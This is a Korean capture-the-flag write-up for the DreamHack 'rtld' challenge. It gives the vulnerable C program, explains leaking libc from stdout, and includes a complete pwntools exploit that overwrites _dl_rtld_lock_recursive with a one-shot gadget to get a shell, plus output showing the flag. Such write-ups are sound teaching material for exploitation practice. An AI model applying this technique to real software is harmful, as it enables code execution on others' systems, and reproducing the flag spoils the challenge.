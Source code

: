 # [DreamHack] rtld

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(rtld)의 바이너리와 소스코드가 주어집니다.
> 프로그램의 취약점을 찾고 rtld overwrite 공격 기법으로 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [rtld.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8550138/rtld.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161377306-5dadbffb-c5bb-43f0-9107-e5496c693795.png)

## Analysis

```c
void get_shell() {
    system("/bin/sh");
}

int main()
{
    long addr;
    long value; 

    initialize();

    printf("stdout: %p\n", stdout);

    printf("addr: ");
    scanf("%ld", &addr);

    printf("value: ");
    scanf("%ld", &value);

    *(long *)addr = value;
    return 0;
}
```

`stdout`의 값을 이용하여 libc 주소를 계산할 수 있다. 그리고 나서 한 번의 AAW를 할 수 있다. `_rtld_global`의 ` _dl_rtld_lock_recursive`를 oneshot gadget의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/rtld')
    stdout_offset = 0x3c5620
    oneshot_offset = 0xf1247
    rtld_global_offset = 0x5f0040

else:
    r = remote('host1.dreamhack.games', 9122)
    stdout_offset = 0x3c5620
    oneshot_offset = 0xf1147
    rtld_global_offset = 0x5f0040


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
oneshot = libc + oneshot_offset  # oneshot gadget
rtld_global = libc + rtld_global_offset  # _rtld_global


# overwrite _dl_rtld_lock_recursive with oneshot gadget

r.sendlineafter('addr: ', str(rtld_global + 3848))
r.sendlineafter('value: ', str(oneshot))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 9122: Done
[*] Switching to interactive mode
$ cat flag
DH{0f48186a16d315abba4d77ccdf507da4}
```
